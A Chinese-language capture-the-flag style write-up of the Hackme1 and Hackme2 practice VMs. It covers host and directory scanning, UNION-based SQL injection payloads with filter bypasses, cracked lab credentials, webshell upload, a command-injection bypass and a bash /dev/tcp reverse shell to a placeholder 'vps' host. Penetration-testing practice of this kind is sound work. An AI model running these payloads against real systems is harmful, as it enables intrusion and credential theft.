


Hackme渗透靶场WriteUp

- - -

# Hackme渗透靶场WriteUp

## hackme1

### 信息收集

**扫描主机**

先利用arp-scan扫描一下同一局域网下的主机

```plain
arp-scan -l
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128203150-1a920aea-8dea-1.png)

**简略扫描(扫端口)**

masscan扫一下端口

```plain
masscan -p 0-65535 --rate=100000 192.168.150.146
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128203155-1db54caa-8dea-1.png)

发现有一个80端口和22端口

**详细扫描**

nmap详细扫描一下

```plain
nmap -sV -p 80,22 -O -T4 192.168.150.146
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128203202-221757fc-8dea-1.png)

**目录扫描**

-   利用**dirb**进行目录扫描

```plain
dirb http://192.168.150.146 /usr/share/wordlists/dirb/big.txt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128203209-25c24f06-8dea-1.png)

-   **gobuster**目录扫描

```plain
gobuster dir -e -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,zip,html -u http://192.168.150.146 -t 30
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128203214-2919f636-8dea-1.png)

**网站指纹识别**

```plain
whatweb http://192.168.150.146
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128203221-2d674b6c-8dea-1.png)

### 漏洞分析

进入目标ip，发现一进入是一个登录页面

直接测试万能密码登录，发现不存在admin用户，尝试随便注册一个admin账户，感觉这里没啥漏洞点

```plain
admin/123456
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128203231-32e247d6-8dea-1.png)

这里感觉有点像SQL注入，毕竟要查询一个书籍，相当于需要从数据库中进行查询，先手测一下，再sqlmap梭

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128203243-3a45494c-8dea-1.png)

确实是存在SQL注入的

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128203250-3e605468-8dea-1.png)

而且还是字符型SQL注入，一眼POST传参，sqlmap试一下，抓包看一下传参

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128203258-42f4a29a-8dea-1.png)

测试了一下，好像不可以,手动打吧

```plain
-1' union select 1,2,3#
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128203305-4771eb52-8dea-1.png)

爆一下数据库

```plain
-1' union select database(),2,3#
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128203312-4ba49e22-8dea-1.png)

之后爆这个库的表名

```plain
-1' union select group_concat(table_name),2,3 from information_schema.tables where table_schema='webapphacking'#
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128203327-543d53e4-8dea-1.png)

爆字段名

```plain
-1' union select group_concat(column_name),2,3 from information_schema.columns where table_schema='webapphacking' and table_name='users'#
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128203331-5727bc3e-8dea-1.png)

爆内容

```plain
-1' union select group_concat(user,0x5c,pasword),2,3 from webapphacking.users#
```

得到

```plain
user1\5d41402abc4b2a76b9719d911017c592
user2\6269c4f71a55b24bad0f0267d9be5508
user3\0f359740bd1cda994f8b55330c86d845
test\05a671c66aefea124cc08b76ea6d30bb
superadmin\2386acb2cf356944177746fc92523983
test1\05a671c66aefea124cc08b76ea6d30bb
admin\e10adc3949ba59abbe56e057f20f883e
```

得到username和passwd，passwd进行MD5解密一下

```plain
user1\hello
user2\commando
user3\p@ssw0rd
test\testtest
superadmin\Uncrackable
test1\testtest
admin\123456
```

现在我们知道了真正的admin账户的username和passwd，现在切换一下账户

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128203342-5d2aa0f6-8dea-1.png)

看起来是要打文件上传的，尝试一下

直接传一个最简单的图片马即可绕过

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128203348-60f6bb3e-8dea-1.png)

蚁剑连一下，权限太低了，提权一下

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128203354-64868d74-8dea-1.png)

一开始尝试suid提权，发现没有可以进行提权的命令

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128203400-6833df6c-8dea-1.png)

尝试自身getshell，发现一点权限没有

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128203409-6d726a5c-8dea-1.png)

利用bash反弹shell也无果

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128203416-71ce7190-8dea-1.png)

我直接POST传参一个pythonshell也不可以，打完看网上其他WP貌似是可以的，奇怪了

这里我是用wget进行getshell的，就是先将pythonshell上传到靶机根目录，之后攻击机开启http服务，之后靶机python运行一下刚刚wget的脚本即可getshell

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128203422-7513b4be-8dea-1.png)

### 提升权限

先查看一下有哪些存在的用户

```plain
cat /etc/passwd | grep /bin/bash
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128203428-78d51d0e-8dea-1.png)

之后翻一下目录，发现在home目录下有一个legacy的子目录，里面有一个touchmenot，file一下发现是一个二进制文件，执行一下得到最高权限

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128203436-7da8ebd0-8dea-1.png)

## hackme2

### 信息收集

**扫描主机**

arp-scan扫一下同一局域网下的主机

```plain
arp-scan -l
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128203446-83621a88-8dea-1.png)

**简约扫一下端口**

masscan扫描

```plain
masscan -p 0-65535 --rate=100000 192.168.150.146
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128203452-86fdc9bc-8dea-1.png)

**详细扫描**

nmap扫描

```plain
nmap -sV -p 80,22 -O -T4 192.168.150.146
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128203458-8b0d5f40-8dea-1.png)

**目录扫描**

-   利用dirb扫描

```plain
dirb http://192.168.150.146 /usr/share/wordlists/dirb/big.txt
```

-   利用gobuster

```plain
gobuster dir -e -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,zip,html -u http://192.168.150.146 -t 30
```

### 漏洞分析

进入靶机发现和hackme1一样，一个登录框

随便注册一下

```plain
123/123456
```

之后进入，尝试一下SQL注入，发现这次查询的语句和hackme1不一样了

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128203507-8fecb678-8dea-1.png)

应该是利用了通配符%

SQL语句是

```plain
$sql = "SELECT * FROM BOOKS WHERE book_name LIKE '".$input."%';"
```

尝试一下有没有SQL注入

```plain
OSI%' and '123' like '1
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128203514-9467e70e-8dea-1.png)

之后开始注入

尝试正常的union联合注入

```plain
OSI%' union select database(),2,3 like '1
```

发现没有回显，先尝试是不是空格被过滤了，之后考虑关键词绕过

```plain
OSI%'/**/union/**/select/**/database(),2,3/**/like/**/'1
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128203520-97a1fcf2-8dea-1.png)

再看表名

```plain
OSI%'/**/union/**/select/**/group_concat(table_name),2,3/**/from/**/information_schema.tables/**/where/**/table_schema/**/like/**/'webapp
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128203525-9b22307c-8dea-1.png)

再看字段名

```plain
OSI%'/**/union/**/select/**/group_concat(column_name),2,3/**/from/**/information_schema.columns/**/where/**/table_schema='webapphacking'/**/and/**/table_name/**/like/**/'use
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128203531-9e5877f6-8dea-1.png)

在看内容

```plain
OSI%'/**/union/**/select/**/group_concat(user,0x5c,pasword),2,3/**/from/**/users/**/where/**/'1'/**/like/**/'1
```

得到user/passwd

```plain
user1\5d41402abc4b2a76b9719d911017c592,
user2\6269c4f71a55b24bad0f0267d9be5508,
user3\0f359740bd1cda994f8b55330c86d845,
test\05a671c66aefea124cc08b76ea6d30bb,
superadmin\2386acb2cf356944177746fc92523983,
test1\05a671c66aefea124cc08b76ea6d30bb,
123\e10adc3949ba59abbe56e057f20f883e
```

进行MD5解密一下

```plain
superadmin/Uncrackable
```

重新登录一下

成功进入后台

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128203539-a3658658-8dea-1.png)

这里和1是有区别的，文件上传之后uploads目录没东西，所以去打别的洞

发现还有2个输入框，看一下是否能打SSTI

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128203545-a6d8be36-8dea-1.png)

好像是不可以的，也可以尝试一下，毕竟都没用python框架

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128203552-ab146d7e-8dea-1.png)

之后试一下直接打RCE

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128203558-ae765e32-8dea-1.png)

发现可以直接解析，那就知道要打RCE了

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128203605-b2e79472-8dea-1.png)

尝试看一下根目录

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128203613-b732b5ac-8dea-1.png)

空格被过滤了，绕过一下

```plain
system('ls$IFS$9/');
```

尝试利用RCE写一个shell

这里经过测试正常的打webshell好像不太行，fuzz一下,看看过滤了哪些东西

貌似

```plain
#''- &\*()|
```

都被过滤了，尝试直接hex2bin/base64\_decode编码绕一下，弹个shell先

```plain
bash -c "bash -i >& /dev/tcp/vps/2333 0>&1"
```

```plain
system(hex2bin(16进制))
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128203619-bacd0a78-8dea-1.png)

之后和hackme1一样找到home/legacy下的touchmenot即可

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128203624-be168e20-8dea-1.png)

# 总结

至此，hackme系列靶机全部结束，接下来我会继续其他系列靶机的WriteUp更新
